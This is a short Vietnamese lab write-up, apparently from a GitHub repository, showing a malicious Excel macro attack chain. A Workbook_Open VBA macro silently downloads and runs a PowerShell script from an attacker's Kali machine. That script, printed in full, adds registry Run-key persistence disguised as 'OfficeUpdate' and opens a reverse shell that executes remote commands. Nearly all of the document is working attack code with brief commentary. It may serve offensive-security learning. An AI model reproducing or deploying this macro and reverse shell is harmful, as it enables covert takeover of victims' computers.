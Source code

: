 
#### 2. Macro VBA excute

- Nội dung đoạn mã:

```vb
Private Sub Workbook_Open()
    Dim cmd As String
    cmd = "powershell -w hidden -nop -c ""Invoke-WebRequest 'http://192.168.200.132:8000/Test.ps1' -OutFile $env:TEMP\payload.ps1; powershell -ep bypass -f $env:TEMP\payload.ps1"""
    Shell cmd, vbHide
End Sub
```

- Thực hiện tải file độc hại `Test.ps1` từ máy `Kali`, lưu vào thư mục `TEMP` với tên là `payload.ps1` và tiến hành thực thi script

#### Victim
![image](assets/images4/3.png)

#### Attacker
- Nội dung `Test.ps1`

```powershell
$RegPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$Name = "OfficeUpdate"
$Value = "powershell.exe -w hidden -ep bypass -File `"$env:TEMP\payload.ps1`""

if (-not (Get-ItemProperty -Path $RegPath -Name $Name -ErrorAction SilentlyContinue)) {
    try {
        New-ItemProperty -Path $RegPath -Name $Name -Value $Value -PropertyType "String" | Out-Null
    } catch {}
}

$client = New-Object System.Net.Sockets.TCPClient('192.168.200.132',4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}

while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){
    $data = (New-Object System.Text.ASCIIEncoding).GetString($bytes,0,$i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}

$client.Close()
```
